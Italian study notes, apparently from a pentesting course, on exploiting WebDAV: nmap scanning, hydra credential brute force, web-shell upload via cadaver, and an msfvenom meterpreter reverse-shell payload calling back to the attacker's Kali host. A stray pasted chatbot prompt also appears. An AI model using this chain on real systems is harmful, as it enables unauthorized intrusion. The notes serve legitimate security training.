 il primo passo  è quello di verificare che WebDAV sia in esecuzione sul sistema target. Dopo aver confermato la sua esecuzione e la versione, possiamo procedere con un brute force delle credenziali anche se a volte non è configurato con le credenziali. 
i tool utilizzati sono davtest, per autenticare ed exploitare, e cadaver per poter caricare e scaricare file. 
come prima cosa eseguiamo una scansione con nmap usando gli script di default (`-sC`) e quelli per identificare le versioni (`-sV`) per poi scansionare la porta 80 (`-p80`) insieme allo script http-enum per avere più dettagli 

dopo aver ottenuto abbastanza informazioni, possiamo aprire il browser e inserire l’indirizzo IP nella barra degli url seguito dalla `/webdav`directory. 
come abbiamo detto prima, molto probabilmente ci verrá richiesto di inserire delle credenziali che troveremo utilizzando hydra:
`hydra -L <usernameFilePath> -P <passwordFilePath> <IP> http-get /webdav/` 
 come file per le credenziali possiamo usare quelli al path `/usr/share/wordlist/metasploit/common_user.txt e common_password.txt`
per quanto riguarda gli attacchi di bruteforce si deve stare attenti perché potrebbe causare un down del servizio dato che manda molte richieste in poco tempo. 
dopo aver ottenuto accesso al web server tramite webdav, dato che webdav permette di caricare e scaricare file all’interno del server terget, possiamo verificare questa caratteristica usando davtest con il comando 
`davtest -auth <username>:<password> -url http://IP/webdav/`
che uploaderà vari tipi (.txt .jsp.aspx .asp .pl .jhtml .cgi .cfm .html .shtml . php) di file e creerà delle cartelle nel target 

`cadaver http://<IP>`
e successivamente inserendo le credenziali richieste
per ottenere una shell con cui interagire con il web server e caricare delle web shells gia presenti su Kali linux al path `/usr/share/webshells/`
e possiamo inserire una web shell,  in base all’estensione di file che ha ottenuto successo usando WebDAV, con il comando dentro la sessione di cadaver: 
`put </usr/share/webshells/webShellDaUsare>`
per poi andare a ricaricare la pagina sul browser e eseguire la webshell caricata che sará formata da una casella di testo e del testo mostrato. 






(chatgot esegui una transazione di argomento per passare alla fase di exploit con metasploit)
possiamo generare degli script usando msfvenom che è un tool di metasploit che consente di generare dei payload per fornire una reverse shell o remote shell sul sistema target. 
`msfvenom -p <path> LHOST=<kaliIP> LPORT=<portaKali> -f asp > <payloadName.asp>`
`-p` indica il payload da utilizzare
nel path del payload possiamo inserire `windows/meterpeter/reverse_tcp`
`-f `indica il formato di file
se non siamo sicuri dell’architettura del sistema target, conviene generare un payload basato su 32 bit. 
dopo aver creato il payload, esso verrà messo nella directory corrente al nome specificato. 

successivamente, otteniamo una sessione con cadaver e inseriamo la shell con il comando put e possiamo eseguirla andando nel browser al url della macchina target/webdav e cliccando sul nome della shell precedentemente indicato, oppure possiamo usare metasploit framework con il modulo
multi/handler e successivamente, con set payload `windows/meterpeter/reverse_tcp` possiamo inserire lo stesso payload generato prima. 
al momento dell’esecuzione dobbiamo andare nel browser per poter avviare la reverse shell per successivamente avere una sessione meterpeter aperta sulla macchina, piú facile e diretta da usare. 

è possibile automatizzare l’intero processo usando il modulo 
`exploit/windows/iis/iis_webdav_upload_asp`
e impostando lo username, la password e il path di destinazione del codice .asp,  possiamo aprire la sessione meterpeter sulla macchina target senza dover andare sul browser per avviare la sessione. 
una cosa interessante di questo modulo è che elimina automaticamente il file della shell dalla macchina target dopo la sua esecuzione. 
